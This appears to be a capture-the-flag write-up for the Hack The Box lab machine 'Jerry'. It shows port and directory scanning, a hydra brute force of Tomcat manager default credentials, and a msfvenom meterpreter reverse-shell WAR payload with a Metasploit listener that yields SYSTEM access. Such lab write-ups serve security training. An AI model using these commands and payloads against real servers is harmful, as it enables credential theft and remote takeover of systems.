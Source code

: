 ## ---------------->> Jerry <<--------------

// We will start with nmap scan 

    $ nmap -sV -A -Pn -T4 10.10.10.95 -p-
-------

    Nmap scan report for 10.10.10.95
    Host is up (0.19s latency).
    Not shown: 65534 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: Apache-Coyote/1.1
    |_http-title: Apache Tomcat/7.0.88
    
// Navigating to http://10.10.10.95:8080/ 

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/1.png)

// Searching for interesting directories with [dirsearch](https://github.com/maurosoria/dirsearch)(By maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.95:8080/ -t 100
------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Target: http://10.10.10.95:8080/

    [13:30:27] Starting: 
    [13:30:53] 400 -    0B  - /\..\..\..\..\..\..\..\..\..\etc\passwd[13:30:54] 400 -    0B  - /a%5c.aspx
    [13:31:20] 302 -    0B  - /docs  ->  /docs/
    [13:31:22] 200 -   19KB - /docs/
    [13:31:23] 302 -    0B  - /examples  ->  /examples/
    [13:31:23] 200 -    1KB - /examples/
    [13:31:23] 200 -    7KB - /examples/servlets/index.html
    [13:31:24] 200 -  637B  - /examples/servlets/servlet/CookieExample
    [13:31:24] 200 -  947B  - /examples/servlets/servlet/RequestHeaderExample
    [13:31:24] 200 -   21KB - /favicon.ico
    [13:31:25] 200 -  722B  - /examples/jsp/snp/snoop.jsp
    [13:31:27] 401 -    2KB - /host-manager/html
    [13:31:27] 302 -    0B  - /host-manager/  ->  /host-manager/html
    [13:31:29] 200 -   11KB - /index.jsp
    [13:31:33] 302 -    0B  - /manager  ->  /manager/
    [13:31:33] 401 -    2KB - /manager/status/all
    [13:31:34] 401 -    2KB - /manager/html
    [13:31:34] 302 -    0B  - /manager/  ->  /manager/html
    [13:31:34] 401 -    2KB - /manager/html/

    Task Completed

// Lets focus on /manager/

// Navigating to http://10.10.10.95:8080/manager/ gets us a login pop up lets try admin : admin

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/2.png)

// Its redirect us to http://10.10.10.95:8080/manager/html 'ACCESS DENIED' html page

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/3.png)

// Found a tomcat [list](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt) 

// now we can use [hydra](https://secnhack.in/hydra-a-brute-forcing-tool/) for brute force the login(Also can be done with BurpSuite Intruder)

    $ hydra -C tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
--------

    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-13 13:52:14
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
    [DATA] attacking http-get://10.10.10.95:8080/manager/html
    [8080][http-get] host: 10.10.10.95   login: admin   password: admin
    [8080][http-get] host: 10.10.10.95   login: admin   password: admin
    [8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
    [8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
    1 of 1 target successfully completed, 4 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-13 13:52:20

// We can see its default credentials login: tomcat : s3cret

// Navigate to http-get://10.10.10.95:8080/ and click on 'Server Status' and default login credentials

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/4.png)

// Then click on 'List applications'

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/5.png)

// Rolling down we can see that we can upload .war files

![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/6.png)

// Lets first make .war payload with msfvenom

    $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.173 LPORT=1444 -f war -o jerry_war.war
---------

    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 510 bytes
    Final size of war file: 2444 bytes
    Saved as: jerry_war.war

// and lets see how the jsp file inside called

    $ mkdir tmp

    $ cd tmp/

    $ unzip ../jerry_war.war 

    Archive:  ../jerry_war.war
       creating: META-INF/
      inflating: META-INF/MANIFEST.MF    
       creating: WEB-INF/
      inflating: WEB-INF/web.xml         
      inflating: biemviiajpvn.jsp   

    $ ls
    META-INF  WEB-INF  biemviiajpvn.jsp

// The file called biemviiajpvn.jsp

// So lets open a listiner on Metasploit multi/handler

    msf6> use exploit/multi/handler

    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
    payload => windows/x64/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lport 1444
    lport => 1444
    msf6 exploit(multi/handler) > set lhost 10.10.16.173
    lhost => 10.10.16.173

    msf6 exploit(multi/handler) > exploit -j
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 10.10.16.173:1444 

// now opload the war file 

![Image 7](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/7.png)

// And navigate to http://10.10.10.95:8080/jerry_war/biemviiajpvn.jspv

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

// We got NT/SYSTEM !!! and the flags !

    meterpreter > pwd
    C:\Users\Administrator\Desktop\flags

    meterpreter > cat '2 for the price of 1.txt'
    user.txt
    7004dbce..................

    root.txt
    04a8b36e1.................
